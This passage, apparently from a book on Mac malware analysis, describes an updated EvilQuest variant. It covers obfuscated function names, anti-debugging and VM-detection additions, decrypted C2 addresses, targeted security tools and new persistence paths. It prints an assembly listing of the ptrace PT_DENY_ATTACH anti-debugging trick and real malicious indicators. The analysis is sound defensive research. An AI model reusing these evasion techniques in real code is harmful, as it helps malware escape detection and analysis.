`NSLinkModule` APIs that `EvilQuest` invokes as part of its in-memory payload execution logic. In the old version of the malware, we find these APIs invoked in a descriptively named function `ei_run_memory_hrd`, found at address `0x0000000100003790`. In the new version, when we come across a cryptically named function `52lMjg` that invokes these same APIs, we know we’re looking at the same function. In our disassembler, we can then rename `52lMjg` to `ei_run_memory_hrd`.    Moreover, in the old version of the malware, we know that the `ei_run_memory_hrd` function was invoked solely by a function named `react_exec`. You can check this by looking for references to the function in Hopper (Figure 11-3).      Figure 11-3: Cross-references to the `ei_run_memory_hrd` function      Now we can posit that the single cross-reference caller of the `52lMjg` function, named `52sCg`, is actually the `react_exec` function. This cross-reference method allows us to easily replace the non-descriptive names found in the new variant with their far more descriptive original names.    The malware authors also added other anti-analysis logic. For example, in the `ei_str` function (the one they renamed `52M_rj`), we find various additions, including anti-debugger logic. The function now makes a system call to `ptrace` (`0x200001a`) with the infamous `PT_DENY_ATTACH` value (`0x1f`) to complicate debugging efforts (Listing 11-67):    ``` 52M_rj: 0x0000000100003020    push       rbp 0x0000000100003021    mov        rbp, rsp ... 0x0000000100003034    mov        rcx, 0x0 0x000000010000303b    mov        rdx, 0x0 0x0000000100003042    mov        rsi, 0x0 0x0000000100003049    mov        rdi, 0x1f 0x0000000100003050    mov        rax, 0x200001a 0x0000000100003057    syscall ```    Listing 11-67: Newly added anti-debugging logic    Trend Micro also notes that the detection logic in the `is_virtual_mchn` function has been expanded to more effectively detect analysts using virtual machines. The researchers write,    > In the function `is_virtual_mchn()`, condition checks including getting the MAC address, CPU count, and physical memory of the machine, have been increased.^(8)    ### Modified Server Addresses    Besides updates to anti-analysis logic, some of the strings found hardcoded and obfuscated in the malware’s binary have been modified. For example, the malware’s lookup URL for its command and control server and backup address have changed. Our injectable decryption library now returns the following for those strings:    ``` % **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib OSX.EvilQuest_UPDATE**  ... decrypted string (0x106e9e154): lemareste.pythonanywhere.com decrypted string (0x106e9f7ca): 159.65.147.28 ```    ### A Longer List of Security Tools to Terminate    The list of security tools that the malware attempts to terminate has been expanded to include certain Objective-See tools created by yours truly. As these tools have the ability to generically detect EvilQuest, it is unsurprising that the malware now looks for them (Listing 11-68):    ``` % **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib OSX.EvilQuest_UPDATE** ... decrypted string (0x106e9f964): ReiKey decrypted string (0x106e9f978): KnockKnock ```    Listing 11-68: Additional “unwanted” programs, now including my very own ReiKey and KnockKnock    ### New Persistence Paths    Paths related to persistence have been added, perhaps as a way to thwart basic detection signatures that sought to uncover EvilQuest infections based on the existing paths (Listing 11-69):    ``` % **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib OSX.EvilQuest_UPDATE**  ... decrypted string (0x106e9f2ed): /Library/PrivateSync/com.apple.abtpd decrypted string (0x106e9f331): abtpd  decrypted string (0x106e9f998): com.apple.abtpd ```    Listing 11-69: Updated persistence paths    ### A Personal Shoutout    Recall that the `react_ping` command expects a unique string from the server. If it receives this string, it returns a success. In the updated version of EvilQuest, this function now expects a different encrypted string: `"1D7KcC3J{Quo3lWNqs0FW6Vt0000023"`, which decrypts to “Hello Patrick” (Figure 11-4).^(9)      Figure 11-4: An interesting observation      Apparently the EvilQuest authors were fans of my early “OSX.EvilQuest Uncovered” blog posts!^(10)    ### Better Functions    Other updates include improvements to older functions, particularly those that weren’t fully implemented as well as many new functions:    *   `react_updatesettings`: Used for retrieving updated settings from the command and control server *   `ei_rfind_cnc` and `ei_getip`: Generates pseudo-random IP addresses that will be used as the command and control server if they’re reachable *   `run_audio` and `run_image`: First saves an audio or image file from the server into a hidden file and then runs the `open` command to open the file with the default applications associated with the file    ### Removed Ransomware Logic    Interestingly the Trend Micro researchers also noted that a later version of EvilQuest removed its ransomware logic. This may not be too surprising; recall that the ransomware logic was flawed, allowing users to recover encrypted files without having to pay the ransom. Moreover, it appeared that the malware authors reaped no financial gains from this scheme. Phil Stokes wrote that “the one known Bitcoin address common to all the samples has had exactly zero transactions.”^(11)    In their report, the Trend Micro researchers argue that the malware authors are likely to release new versions of EvilQuest:    > Newer variants of [the EvilQuest malware] with more capabilities are released within days. Having observed this, we can assume that the threat actors behind the malware still have many plans to improve it. Potentially, they could be preparing to make it an even more vicious threat. In any case, it is certain that these threat actors act fast, whatever their plans. Security researchers should be reminded of this and strive to keep up with the malware’s progress by continuously detecting and blocking whatever variants cybercriminals come up with.^(12)    As a result, we’re likely to see more from EvilQuest!    ## Conclusion    EvilQuest is an insidious multifaceted threat, armed with anti-analysis mechanisms aimed at thwarting any scrutiny. However, as illustrated in the previous chapter, once such mechanisms are identified, they are rather trivial to wholly circumvent.    With the malware’s anti-analysis efforts defeated, in this chapter we turned to a myriad of static and dynamic analysis approaches to uncover the malware’s persistence mechanisms and gain a comprehensive understanding of its viral infection capabilities, file exfiltration logic, remote tasking capabilities, and ransomware logic.    In the process, we highlighted how to effectively utilize, in conjunction, arguably the two most powerful tools available to any malware analyst: the disassembler and the debugger. Against these tools, the malware stood no chance!    ## Endnotes**````*
